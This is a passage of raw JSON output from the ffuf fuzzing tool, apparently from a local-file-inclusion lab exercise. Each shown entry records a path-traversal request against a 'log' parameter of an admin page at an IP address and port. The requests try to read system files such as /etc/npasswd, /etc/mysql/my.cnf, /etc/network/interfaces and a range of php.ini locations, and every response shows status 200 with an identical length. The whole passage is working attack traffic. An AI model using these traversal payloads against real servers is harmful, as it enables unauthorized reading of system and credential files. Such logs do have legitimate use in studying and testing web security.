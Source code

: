 charset=UTF-8","redirectlocation":"","scraper":{},"duration":43958769,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/my.conf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf535","FUZZ":"/etc/npasswd"},"position":53,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43214365,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/npasswd","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf532","FUZZ":"/etc/mysql/my.cnf"},"position":50,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43939819,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/mysql/my.cnf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf533","FUZZ":"/etc/network/interfaces"},"position":51,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43884079,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/network/interfaces","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf534","FUZZ":"/etc/networks"},"position":52,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44603882,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/networks","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf536","FUZZ":"/etc/php4.4/fcgi/php.ini"},"position":54,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44579102,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/php4.4/fcgi/php.ini","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf537","FUZZ":"/etc/php4/apache2/php.ini"},"position":55,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44928354,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/php4/apache2/php.ini","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf538","FUZZ":"/etc/php4/apache/php.ini"},"position":56,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44278280,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/php4/apache/php.ini","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf539","FUZZ":"/etc/php4/cgi/php.ini"},"position":57,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44356441,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/php4/cgi/php.ini","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf53a","FUZZ":"/etc/php5/apache2/php.ini"},"position":58,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44198300,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/php5/apache2/php.ini","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf53c","FUZZ":"/etc/php/apache2/php.ini"},"position":60,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43817708,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/php/apache2/php.ini","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf53b","FUZZ":"/etc/php5/apache/php.ini"},"position":59,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44247060,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/php5/apache/php.ini","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf53d","FUZZ":"/etc/php/apache/php.ini"},"position":61,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44143210,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/php/apache/php.ini","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf53f","FUZZ":"/etc/php.ini"},"position":63,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44126680,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/php.ini","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf53e","FUZZ":"/etc/php/cgi/php.ini"},"position":62,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45287616,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/php/cgi/php.ini","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf541","FUZZ":"/etc/php/php.ini"},"position":65,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44807613,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/php/php.ini","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf540","FUZZ":"/etc/php/php4/php.ini"},"position":64,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html;